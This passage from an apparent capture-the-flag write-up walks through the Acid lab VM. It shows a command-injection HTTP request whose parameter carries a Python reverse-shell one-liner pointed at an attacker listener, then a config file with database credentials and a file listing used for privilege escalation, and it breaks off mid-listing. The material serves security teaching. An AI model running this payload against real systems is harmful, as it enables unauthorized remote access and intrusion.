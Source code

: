 We realized after a few seconds, that there is no nc with executable property,
no curl, no wget and no writable place in DocumentRoot on obvious place, I tried
to store something to `/var/www/html/`. We could send anything over netcat, but
using python reverse shell could be more efficient:

{% codeblock %}
root@kali32:~# nc -l -p 1337

POST /Challenge/Magic_Box/command.php HTTP/1.1
Host: 192.168.80.158:33447
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:40.0) Gecko/20100101 Firefox/40.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.80.158:33447/Challenge/Magic_Box/command.php
Cookie: sec_session_id=pieetao0om7q8pop7rgt3i45a2
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 101

IP=x ;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.80.137",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'&submit=submit
{% endcodeblock %}

We are connected and now we need to escalate our privileges. We found:
{% codeblock %}
$ cat psl-config.php
<?php
define("HOST", "localhost");                    // The host you want to connect to.
define("USER", "root");                         // The database username.
define("PASSWORD", "mehak");    // The database password.
define("DATABASE", "secure_login");             // The database name.

www-data@acid:/$ find / -user acid 2>/dev/null
/sbin/raw_vs_isi/hint.pcapng
/bin/pwn_me
/bin/pwn_me/chkrootkit.lsm
/bin/pwn_me/chkrootkit
/bin/pwn_me/README.chkwtmp
/bin/pwn_me/ACKNOWLEDGMENTS
/bin/pwn_me/chkdirs.c
/bin/pwn_me/ifpromisc.c
/bin/pwn_me/Makefile
/bin/pwn_me/chklastlog.c
/bin/pwn_me/strings.c
/bin/pwn_me/chkwtmp.c
/bin/pwn_me/README.chklastlog
/bin/pwn_me/COPYRIGHT
/bin/pwn_me/chkproc.c
/bin/pwn_me/README
/bin/pwn_me/chkutmp.c
/bin/pwn_me/check_wtmpx.c
/var/lib/lightdm-data/acid
/var/www/html/Challenge/less
/var/www/html/Challenge/less/style.less
/var/www/html/Challenge/css
/var/www/html/Challenge/css/style.css
/var/www/html/Challenge/css/style.css.save
/var/www/html/index.html
/var/www/html/images
/var/www/html/images/bg.jpg
/var/www/html/images/Thumbs.db
/var/www/html/images/wow.jpg
/var/www/html/css